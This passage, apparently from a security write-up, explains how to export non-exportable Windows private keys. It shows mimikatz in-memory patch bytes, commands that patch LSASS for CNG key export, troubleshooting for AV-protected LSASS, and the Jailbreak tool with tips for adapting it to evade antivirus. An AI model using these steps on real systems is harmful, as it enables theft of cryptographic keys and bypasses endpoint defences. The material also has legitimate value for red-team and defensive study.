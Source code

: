 How did this work? [Looking at the code](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/crypto/kuhl_m_crypto_patch.c) reveals that it's a rather simple in-memory patch that has to do with jumps, where ```JNE``` is overwritten with ```JMP```:
```C
BYTE PATC_WIN5_CPExportKey_EXPORT[]	= {0xeb};
BYTE PATC_W6AL_CPExportKey_EXPORT[]	= {0x90, 0xe9};
```

Seems like it's enough to skip the unexportable check!


### CNG Patching
Extracting privates keys protected by the CNG will require admin privileges for the patching of LSASS (same as previously, overwrite the ```JMP``` of the export check):
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::cng
"KeyIso" service patched

mimikatz # crypto::certificates /export
...
```

If when patching insted of the KeyIso success message, you get this error:
```
ERROR kull_m_patch_genericProcessOrServiceFromBuild ; OpenProcess (0x00000005)
```
Then it probably means that there's AV software protecting LSASS, which you should be able to confirm by running the ```sekurlsa``` set of commands.

If you get this error:
```
ERROR kull_m_patch_genericProcessOrServiceFromBuild ; kull_m_patch (0x00000000)
```
Then it looks like a failure to patch, either because the version used is not up-to-date with regards to the system, or because LSASS has been patched already.


## Method 2: Jailbreak
This one only applies to CryptoAPI but might be simpler than mimikatz if you don't have an AV bypass method handy, as this software will be a lot easier to recompile/obfuscate.
The [Jailbreak](https://github.com/iSECPartners/jailbreak) project is available on GitHub and includes precompiled binaries that sadly trigger most AVs. But the code is easily read and can be slightly adapted to defeat them.

It simply hooks API calls and let's you use the certificate manager normally, behaving like keys were not protected:
